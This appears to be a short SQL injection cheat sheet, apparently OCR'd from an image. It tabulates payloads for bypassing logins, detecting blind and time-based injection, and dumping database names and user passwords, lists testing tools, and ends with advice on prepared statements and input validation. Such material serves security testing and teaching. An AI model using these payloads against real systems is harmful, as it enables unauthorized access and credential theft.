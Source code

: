 |Goal|Payload|
|---|---|
|Bypass login|`' OR 1=1 --`|
|Detect blind SQLi|`' AND 1=1 --` vs `' AND 1=2 --`|
|Time-based detection|`' OR SLEEP(5) --`|
|Extract DB name|`' UNION SELECT database(), null --`|
|Dump all users|`' UNION SELECT user, password FROM users --`|

---

# Tools for testing:

- `sqlmap` (automated SQLi tool)
- `Burp Suite`
- `requestbin` (for OOB testing)
- Custom scripts with curl/python

---

# Don't forget:

SQLi is **one of the most dangerous and common web vulnerabilities** (OWASP Top 10).

Always use **prepared statements** (e.g., `cursor.execute("SELECT * FROM users WHERE id = ?", [user_id])`)

---

# Mitigation

Simply encode data, use prepared statements and validate inputs.

---
